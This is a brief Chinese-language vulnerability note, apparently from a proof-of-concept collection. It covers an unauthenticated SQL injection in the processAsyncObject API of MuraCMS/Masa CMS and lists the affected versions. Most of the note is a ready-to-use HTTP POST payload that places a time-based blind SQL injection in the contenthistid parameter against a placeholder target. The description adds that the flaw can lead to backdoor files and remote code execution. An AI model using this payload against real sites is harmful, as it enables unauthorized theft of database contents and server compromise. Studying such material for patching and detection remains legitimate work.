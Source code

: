 **漏洞描述：**

MuraCMS processAsyncObject存在SQL注入漏洞，未经身份验证的远程攻击者可利用此漏洞 构造恶意请求获取数据库中的敏感信息，深入利用可写入后门文件可造成远程代码执行获取服务器权限。

**影响版本：**

Masa CMS < 7.4.6

Masa CMS < 7.3.13

Masa CMS < 7.2.8

**Payload：**

```yaml
POST /index.cfm/_api/json/v1/default/?method=processAsyncObject HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

object=displayregion&contenthistid=x%5c' AND (SELECT 3504 FROM (SELECT(SLEEP(5)))MQYa)-- Arrv&previewid=1
```

---
